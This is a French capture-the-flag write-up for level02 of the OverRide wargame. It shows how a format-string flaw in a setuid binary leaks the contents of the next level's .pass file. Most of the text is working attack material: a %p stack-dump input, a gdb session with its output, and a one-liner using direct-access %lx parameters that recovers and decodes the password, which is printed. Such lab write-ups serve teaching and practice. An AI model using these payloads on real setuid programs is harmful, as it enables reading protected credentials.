 En analysant le binaire nous nous rendons compte que c'est un binaire 64bits avec la commande file:

level02@OverRide:~$ file level02 
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped

Description simplifier:

Le binaire lit le fichier .pass du level suivant (/home/users/level03/.pass).
Nous l'avons remplacer par /tmp/.pass.
Le contenu du fichier est un peu controler pour voir si il peut etre authentique.
Il devra au moins respecter la regle suivante:
41 caracteres diffents de '\n' et un '\n'
Pour ma part, j ai creer le fichier comme ceci:
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHIJL" > /tmp/.pass
la commande echo creer un '\n' automatiquement en fin de la chaine de charactere.

Il y a deux fgets(), mais seul le premier sera utile.

Le premier fgets() va etre afficher a la fin du binaire a l'aide d'un printf().

Le premier parametre du printf va etre notre premiere input, ce qui represente une faille de securite, nous pouvons donc examiner la stack a partir de $esp avec des arguments tels que %p, %lx ...

Afin de pouvoir afficher le contenu des 30 * 16 premiers bytes de la stack j ai rentrer cette chaine de characteres dans la premiere input:
"%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p "

 et une chaine de characteres vide dans la deuxieme input:

Si nous examinons la stack frame a partir de $rsp juste avant le printf nous pouvons voir que les adresses ne sont pas coherentes car printf va rajouter des bytes sur la stack frame en creant d autres stack frames dans ses fonctions, mais nous avons une idee de ce que nous pourrons recuperer avec les Direct Access Parameters de printf().

Vu que nous savons ce que contient le fake fichier .pass, nous pouvons observer son contenu sur la stack et dans les direct access parameters en format little indian, nous devons retenir les numeros des Direct Access Parameter.
Dans notre cas ce sont les numero 22, 23, 24, 25, 26, 27.

Nous pouvons avoir un apercu avec cette commande :
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHIJL" > /tmp/.pass && gdb ./level02 -batch -ex "file level02" -ex "set exec-wrapper env -u LINES -u COLUMNS" -ex "set disassembly-flavor intel" -ex "b *main+4" -ex "b *main+148" -ex "b *main+237" -ex "b *main+453" -ex "b *main+523" -ex "b *main+654" -ex "r <<< '%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p'" -ex "echo Debut de la memoire allouee:\n" -ex "x/wx \$rsp" -ex "ni" -ex "echo Fin de la memoire allouee:\n" -ex "x/wx $esp" -ex "c" -ex "echo Path du fichier de base:\n" -ex "x/s 0x400bb2" -ex 'set $rdi="/tmp/.pass"' -ex "echo Path du fichier modifier:\n" -ex 'x/s $rdi' -ex "c" -ex 'x/s $rdi' -ex "c" -ex 'x/s $rdi' -ex "c" -ex 'x/s $rdi' -ex "c" -ex "echo (gdb) x/152bx \$rsp\n" -ex "x/152bx $rsp" -ex "echo Printf Direct Access Parameters:\n" -ex "c"

Breakpoint 1 at 0x400818
Breakpoint 2 at 0x4008a8
Breakpoint 3 at 0x400901
Breakpoint 4 at 0x4009d9
Breakpoint 5 at 0x400a1f
Breakpoint 6 at 0x400aa2
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000000000400818 in main ()
Debut de la memoire allouee:
0x7fffffffe5e0: 0x00000000
0x000000000040081f in main ()
Fin de la memoire allouee:
0x7fffffffe5e4: 0x00000000

Breakpoint 2, 0x00000000004008a8 in main ()
Path du fichier de base:
0x400bb2:        "/home/users/level03/.pass"
Path du fichier modifier:
0x602010:        "/tmp/.pass"

Breakpoint 3, 0x0000000000400901 in main ()
0x7fffffffe540:  ""
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/

Breakpoint 4, 0x00000000004009d9 in main ()
0x7fffffffe570:  ""

Breakpoint 5, 0x0000000000400a1f in main ()
0x7fffffffe4d0:  ""
--[ Username: --[ Password: *****************************************

Breakpoint 6, 0x0000000000400aa2 in main ()
(gdb) x/152bx $rsp
0x7fffffffe4d1: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4d9: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4e1: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4e9: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4f1: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4f9: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe501: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe509: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe511: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe519: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe521: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe529: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe531: 0x00    0x00    0x00    0x01    0x00    0x00    0x00    0x00
0x7fffffffe539: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x41
0x7fffffffe541: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe549: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe551: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe559: 0x41    0x41    0x41    0x41    0x41    0x41    0x42    0x43
0x7fffffffe561: 0x44    0x45    0x46    0x47    0x48    0x49    0x4a    0x4c
Printf Direct Access Parameters:
0x7fffffffe4d0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6c8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4241414141414141 0x4a49484746454443 0x4c 0x7025207025207025 0x2520702520702520 0x2070252070252070 does not have access!
[Inferior 1 (process 24614) exited with code 01]



Nous pouvons donc recuperer le contenu du fichier .pass du level3 avec cette commande:
(python -c 'print "%22$lx %23$lx %24$lx %25$lx %26$lx %27$lx"') | ./level02 | tail -n 1 | tr ' ' '\n' | head -n 5 | fold -w2 | tr -d '\n' >/tmp/test && dd conv=swab if=/tmp/test of=/tmp/result 2>/dev/null && cat /tmp/result | fold -w 16 | rev | tr -d '\n' | xxd -r -p; echo ""

et le resultat est:
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

Explication de la commande finale:
(python -c 'print "%22$lx %23$lx %24$lx %25$lx %26$lx %27$lx"'): Afficher les bytes du fichier .pass
./level02: Le binaire en question
tail -n 1: On affiche que les bytes du fichier .pass (qui sont en little indian) en enlevant le superflu
tr ' ' '\n: On remplace les ' ' par des '\n'
head -n 5: On enleve encore un peu de superflu
fold -w2: On met un '\n' tout les 2 chars
tr -d '\n' >/tmp/test: On enleve les '\n' et on met le resultat dans /tmp/test
dd conv=swab if=/tmp/test of=/tmp/result 2>/dev/null: On swap les char 2 par 2 et on n'affiche pas la sortie d erreur
cat /tmp/result: On recupere le resultat
fold -w 16: on met un '\n' tout les 16 chars
rev: On inverse les strings lignes par lignes
tr -d '\n': On enleve les '\n'
xxd -r -p: On converti chaque element de la chaine en ascii
